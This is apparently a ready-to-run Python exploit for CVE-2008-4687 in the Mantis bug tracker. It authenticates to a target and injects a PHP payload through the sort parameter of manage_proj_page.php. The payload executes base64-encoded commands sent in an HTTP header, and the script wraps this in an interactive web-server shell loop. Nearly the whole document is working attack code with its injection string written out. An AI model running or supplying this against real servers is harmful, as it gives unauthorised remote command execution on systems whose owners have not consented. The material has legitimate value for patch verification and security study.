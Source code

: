 EXP
---

    # Quick and dirty exploit for CVE-2008-4687.
    # Description by NIST:
    # manage_proj_page.php in Mantis before 1.1.4 allows remote authenticated users to
    # execute arbitrary code via a sort parameter containing PHP sequences, which are p
    # rocessed by create_function within the multi_sort function in core/utility_api.php.
    # Author: Nelson Murilo
    # Date: 2020/02/15

    import requests
    import hashlib
    import base64
    import sys

    if len(sys.argv) != 5:
       print ("Usage: pymantis host path user pass")
       exit(-1)

    host = sys.argv[1]
    path = sys.argv[2]
    user = sys.argv[3]
    pwd = sys.argv[4]

    urlbase = "http://" + host
    # just a little joke
    ua = 'Mozilla/5.0 (Nintendo WiiU) AppleWebKit/536.30 (KHTML, like Gecko) NX/3.0.4.2.12 NintendoBrowser/4.3.1.11264.US'
    p='PHPSESSID='+str(hashlib.md5('xploit'.encode()).hexdigest())

    d = { 'username':user , 'password': pwd }
    r = requests.Session()
    ret = r.get(urlbase + path + 'login_page.php')

    h = {
        'Host': host,
        'User-Agent': ua,
        'Cookie': p,
        'Connection': 'close'
    }
    ret = r.post(urlbase + path + 'login.php', data=d, headers=h)
    try:
        cookies = p + "; ISSUES_STRING_COOKIE=" + r.cookies['ISSUES_STRING_COOKIE']
        print("** Exploit works like a charm!")
    except:
        print("Ops! Exploit fail - Bye")
        quit()
    #
    # Poor man reverse shell
    #

    r.headers
    {
        'Host': host,
        'Cookie': cookies,
        'Content-type': 'application/json; charset=utf-8',
        'Connection': 'close'
    }
    pow = "\']);}error_reporting(0);print(_code_);passthru(base64_decode($_SERVER[HTTP_CMD]));die;%23"
    url = urlbase + path + 'manage_proj_page.php?sort=' + pow

    cmd = ""
    while True:
        cmd = input("www-data# ")
        if not cmd:
            continue
        if cmd.lower() in {'exit'}:
            break
        h = {
            'Host': host,
            'User-Agent': ua,
            'Cookie': cookies,
            'Cmd': base64.b64encode(cmd.encode('utf-8')).decode('utf-8'),
            'Connection': 'close'
        }
        ret = requests.get(url, headers=h)
        response = str(ret.content)
        for line in response.partition('_code_')[2].split("\\n"):
            print(line.strip("\'"))
    print("Bye")